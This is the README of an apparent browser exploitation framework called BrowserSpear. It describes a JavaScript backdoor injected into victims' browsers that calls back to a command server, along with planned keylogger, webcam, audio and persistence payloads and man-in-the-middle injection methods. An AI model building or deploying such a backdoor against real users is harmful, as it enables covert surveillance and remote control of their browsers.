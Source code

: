 # BrowserSpear
A framework for exploiting browsers by injecting Javascript to a web-based backdoor

# Aim of the project
- After a backdoor is injected in the browser (backdoor.html) the backdoor will try a websocket first and otherwise poll with GET requests. If a GET request succeeds but no websocket is possible (browser incompatible, proxy, filter, ... ) it will communicate in both ways with respectivly GET and reponse-headers.
- When a connection is available to a host it can be send Javascript-code to be executed on the machine
- Clients will be identified from the server with a couple commands and a database will be kept in a plain file
- The interface will be combined with the server (nodejs for async events). If the server is already running, make a connection to the existing server through HTTP requests or a websocket to have the same level of access
- Commands will only be accepted if comming from localhost
- The interface is a metasploit-like commnand-based system to list victims and send commands (custom or prepared payloads)
- Examples of payloads: webcam stream, audio record, keylogger, persistance, ... (check BeEF for inspiration)
- SSL protected connection with loadable cert (Future)

# Dependencies
- Nodejs (install with package-manager)
<pre>apt-get install nodejs</pre>
- Websockets (nodejs-library: https://www.npmjs.com/package/websocket) easiest installed with npm (see below)
- Prompt (nodejs-library: https://www.npmjs.com/package/prompt) easiest installed with npm (see below)
<pre>apt-get install npm && npm install websockets && npm install prompt</pre> 

# Usage
- To start the command server, use the following command:
<pre>node backend_server.js</pre>

- To test, inject the backdoor as a MitM, serve the file yourself or open http://IP-or-URL-server>:1337/ in a browser

- Commands can be send by typing them in the backend_server.js-interface or doing a HTTP-call:
<pre>curl 'http://localhost:1337/exec?alert("muahahahaha")'</pre>

# TODO & Roadmap
- if necessairy ask to clean port (if something is running on it, maybe pinpoint it)
- (DONE) For testing, if the servers root is requested, return the backdoor.html file
- backdoor must be built to only provide the URL to connect to if it was not already set. so that the url can be changed by adding an extra script-segment with "var socket = new WebSocket('ws://wereiwanttogo.com:1337')"
- (DONE) interface should take commands to be sent to victims.
- (DONE) a new connection should be fingerprinted 
- ... and merged with the connection object and also logged to a local file with a history of commands.
- Module system with javascript-scripts in files that are parsed into onliners (maybe minified) and then send. Only knowledge is for returning data with socket.send() and developing a way to also have modules for server-side (retrieval of loot) (Idea: support "file"-tag and "stream-tag" and "data"-tag)
- input should be able to be corrected and navigated by the arrow keys without creating escape characters (https://scotch.io/tutorials/build-an-interactive-command-line-application-with-nodejs)
- interface with more layers to list and send commands specific to victim
- GET call to server (from local) to generate payload (newest version) with specified URL to be directed to
- Help command in interface should explain how iframe can be use for the injection of backdoor.html by tool like bettercap (for example)
- look for persistance options in same manner as poisontab, Also try migration to other tabs
- Penetration to system-level attacks
- History of commands (up and down arrow key) -> prompt library

# Examples how to inject
TODO
- bettercap, badusb, mitm by spoofing evil twin (link articles)

# Credits
- Samy Kamkar for the inspiration through the Poisontab project and the code that provides the low-level base of the project.
